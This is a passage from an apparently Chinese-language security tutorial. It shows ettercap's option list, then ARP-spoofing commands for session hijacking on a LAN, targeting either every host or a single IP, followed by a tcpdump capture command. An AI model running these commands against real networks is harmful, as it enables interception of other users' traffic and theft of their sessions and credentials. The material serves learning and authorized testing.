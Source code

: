 ```bash
       -s, --script <CMD         issue these commands to the GUI
  -C, --curses                use curses GUI
  -D, --daemon                daemonize ettercap (no GUI)
  -G, --gtk                   use GTK+ GUI

Logging options:
  -w, --write <file         write sniffed data to pcapfile <file
  -L, --log <logfile        log all the traffic to this <logfile
  -l, --log-info <logfile   log only passive infos to this <logfile
  -m, --log-msg <logfile    log all the messages to this <logfile
  -c, --compress              use gzip compression on log files

Visualization options:
  -d, --dns                   resolves ip addresses into hostnames
  -V, --visual <format      set the visualization format
  -e, --regex <regex        visualize only packets matching this regex
  -E, --ext-headers           print extended header for every pck
  -Q, --superquiet            do not display user and password

General options:
  -i, --iface <iface        use this network interface
  -I, --liface                show all the network interfaces
  -Y, --secondary <ifaces   list of secondary network interfaces
  -n, --netmask <netmask    force this <netmaskon iface
  -A, --address <address    force this local <addresson iface
  -P, --plugin <plugin      launch this <plugin
  -F, --filter <file        load the filter <file(content filter)
  -z, --silent                do not perform the initial ARP scan
  -j, --load-hosts <file    load the hosts list from <file
  -k, --save-hosts <file    save the hosts list to <file
  -W, --wifi-key <wkey      use this key to decrypt wifi packets (wep or wpa)
  -a, --config <config      use the alterative config file <config

Standard options:
  -v, --version               prints the version and exit
  -h, --help 
```



　　**ARP欺骗之会话劫持：**

```bash
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ // 欺骗局域网内所有主机
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ /10.0.0.12/ 欺骗IP为10.0.0.12的主机
```

　　![img](../../../../#ImageAssets/262350137461740-1573358989531.png)

　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```
tcpdump -i eth0
```
